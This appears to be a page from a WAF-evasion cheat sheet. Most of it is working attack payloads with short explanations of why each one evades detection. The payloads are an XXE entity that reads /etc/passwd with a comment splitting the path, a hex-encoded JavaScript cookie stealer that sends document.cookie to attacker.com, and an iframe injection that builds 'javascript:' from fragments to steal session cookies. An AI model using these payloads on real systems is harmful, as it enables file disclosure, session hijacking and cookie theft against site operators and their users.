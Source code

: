 >Instead of using **straightforward** payloads, **comment splitting** can fool WAF regex rules.  

>Comment-Injection Bypass  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "fi<!-- Bypass WAF -->le:///etc/passwd">
]>
<root>
    <data>&xxe;</data>
</root>
```  

- WAF regex rules searching for `file:///` will **fail** because it's split by a comment.  

----

# JavaScript Code Obfuscation for WAF Evasion  

>JavaScript attacks like **XSS** and **cookie theft** can be obfuscated to bypass WAF detections.  

### JavaScript Hex Encoding Bypass  

>Instead of using **regular payloads**, attackers can **encode characters in hex**.  

#### JavaScript Cookie Stealer (Hex Encoding)  

```js
<script>
    var x = String.fromCharCode(100,111,99,117,109,101,110,116);
    var y = x+"."+String.fromCharCode(99,111,111,107,105,101);
    fetch("http://attacker.com/steal?c="+document[y]);
</script>
```

- **Bypasses keyword detection** for `document.cookie`.  

### IFrame Injection with Character Splicing  

>Splitting JavaScript **keywords** can evade signature-based WAFs.  

#### IFrame Injection for Session Hijacking  

```js
<script>
    var a = "jav";
    var b = "asc";
    var c = "ript:";
    var payload = a + b + c + "alert(document.cookie)";
    document.write("<iframe src='" + payload + "'></iframe>");
</script>
```  

- WAF **does not detect** `javascript:` in **one token**.  
